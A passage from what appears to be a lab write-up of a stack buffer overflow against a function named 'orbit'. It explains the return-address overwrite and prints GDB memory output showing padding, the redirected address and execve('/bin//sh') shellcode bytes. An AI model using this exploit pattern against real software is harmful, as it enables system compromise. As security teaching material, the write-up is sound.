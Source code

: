 This causes the `orbit` function to start executing the shellcode at address `0xbffffc30` when it returns. 

#### Exploit GDB Output 
When we ran GDB after inputting the malicious exploit string, we got the following output:

```bash
(gdb) x/16x buf
0xbffffc18:  0x61616161  0x61616161  0x61616161  0x61616161
0xbffffc28:  0x61616161  0xbffffc30  0xcd58326a 0x89c38980
0xbffffc38:  0x58476ac1  0xc03180cd  0x2f2f6850  0x2f686873
0xbffffc48:  0x546e6962  0x8953505b  0xb0d231e1  0x0080cd0b
```

After 20 bytes of garbage, the rip is overwritten with `0xbffffc30`, which points to the shellcode directly after the rip. 














